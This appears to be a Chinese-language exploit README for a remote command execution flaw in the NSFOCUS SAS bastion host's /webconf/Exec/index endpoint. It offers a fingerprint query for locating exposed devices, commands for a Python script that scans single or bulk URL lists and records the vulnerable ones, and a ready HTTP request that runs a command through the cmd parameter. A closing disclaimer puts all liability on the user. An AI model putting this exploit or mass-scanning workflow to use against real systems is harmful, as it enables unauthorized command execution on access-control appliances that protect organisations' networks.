


# 绿盟 SAS堡垒机 Exec 远程命令执行

绿盟 SAS堡垒机 Exec/index存在远程命令执行漏洞

## 指纹

body="'/needUsbkey.php?username='"

## 工具利用

python3 SAS-Exec_rce.py -u http://127.0.0.1:1111 单个url测试

python3 SAS-Exec_rce.py -f url.txt 批量检测 

扫描会自动保存存在漏洞的url到vuln.txt


## exp

```
GET /webconf/Exec/index?cmd=whoami HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.2785.42 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close

```


## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
